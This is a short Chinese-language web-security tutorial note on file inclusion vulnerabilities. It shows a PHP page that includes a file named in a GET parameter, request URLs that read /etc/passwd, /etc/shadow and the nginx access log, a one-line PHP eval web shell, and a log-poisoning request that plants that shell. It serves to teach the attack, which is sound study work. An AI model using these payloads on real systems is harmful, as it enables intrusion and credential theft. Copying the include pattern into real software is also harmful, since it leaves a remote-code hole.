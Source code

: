 ```yaml
---
title: 08.文件包含
description: 文件包含漏洞
published: 1
date: 2023-04-19T17:26:56.266Z
tags: web safe, file
editor: markdown
dateCreated: 2023-04-19T17:26:52.542Z
---
```


<center>文件包含</center>



[toc]





## 文件包含

> 文件包含: ==包含一个文件==
>
> 远程文件(危害大) 和本地文件

```php
# 本地文件
# index.php

$file = $_GET['file'];

if($file){
    include("$file");
    // include_once()
    // require()
    // require_once()

}else{
    echo 'file fail';
}
```

> url构造请求

```shell
http://127.0.0.1/?file=aa.php

# linux 服务器
http://127.0.0.1/?file=/var/www/html/public/aa.php
# linux的敏感信息
http://127.0.0.1/?file=/etc/passwd
http://127.0.0.1/?file=/etc/shadow
```



### 1.小技巧

> 输入到日志中

```shell
http://127.0.0.1/?file=/var/log/nginx/access.log
```

> 一句话木马

```shell
# aa.php
<?php eval($_POST['goer']); ?>

# 请求
http://127.0.0.1/?file=aa.php

# 下载使用中国蚁剑连接
```

> 如果没有文件上传，又想包含文件呢？

```shell
# 写入到日志中
http://127.0.0.1/?file=<?php eval($_POST['goer']); ?>
```





### 2. 提示

> 一般网站都包含一些共同文件

```shell
robots.txt
# 防止爬虫爬取的页面

# 熟悉服务器上资源
```





















